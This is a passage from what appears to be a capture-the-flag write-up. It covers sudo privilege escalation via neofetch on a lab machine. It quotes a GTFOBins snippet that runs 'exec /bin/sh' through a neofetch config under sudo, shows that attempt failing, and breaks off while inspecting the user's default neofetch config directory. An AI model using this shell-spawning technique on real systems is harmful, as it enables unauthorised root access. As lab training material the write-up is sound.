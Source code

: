 My first trial was using the code snippet referenced from GTFOBins.

```bash
TF=$(mktemp)
echo 'exec /bin/sh' >$TF
sudo neofetch --config $TF
```

But unlike my expectation, it kept asking password.

```bash
thomas@meta:~$ TF=$(mktemp)
thomas@meta:~$ echo 'exec /bin/sh' >$TF
thomas@meta:~$ sudo neofetch --config $TF

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for thomas: 
Sorry, try again.
```

Since the `sudo` permission doesn't allow additional parameters added, I need to use the default setting.

Referring to [this](https://github.com/dylanaraps/neofetch/wiki/Customizing-Info#config-file-location), default configuration location is set to `${HOME}/.config/neofetch/config.conf`.

I can see the file in `thomas`'s home directory.

```bash
thomas@meta:~$ ls -al
total 36
drwxr-xr-x 5 thomas thomas 4096 Mar 12 04:12 .
drwxr-xr-x 3 root   root   4096 Aug 29  2021 ..
lrwxrwxrwx 1 root   root      9 Aug 29  2021 .bash_history -> /dev/null
-rw-r--r-- 1 thomas thomas  220 Aug 29  2021 .bash_logout
-rw-r--r-- 1 thomas thomas 3526 Aug 29  2021 .bashrc
drwxr-xr-x 3 thomas thomas 4096 Aug 30  2021 .config
drwx------ 3 thomas thomas 4096 Mar 12 04:12 .gnupg
-rw-r--r-- 1 thomas thomas  807 Aug 29  2021 .profile
drwx------ 2 thomas thomas 4096 Jan  4  2022 .ssh
-rw-r----- 1 root   thomas   33 Mar 12 03:55 user.txt


thomas@meta:~$ ls -al .config
total 12
drwxr-xr-x 3 thomas thomas 4096 Aug 30  2021 .
drwxr-xr-x 5 thomas thomas 4096 Mar 12 04:12 ..
drwxr-xr-x 2 thomas thomas 4096 Dec 20  2021 neofetch


thomas@meta:~$ ls -al .config/neofetch
total 24
drwxr-xr-x 2 thomas thomas  4096 Dec 20  2021 .
drwxr-xr-x 3 thomas thomas  4096 Aug 30  2021 ..
-rw-r--r-- 1 thomas thomas 14591 Aug 30  2021 config.conf
```
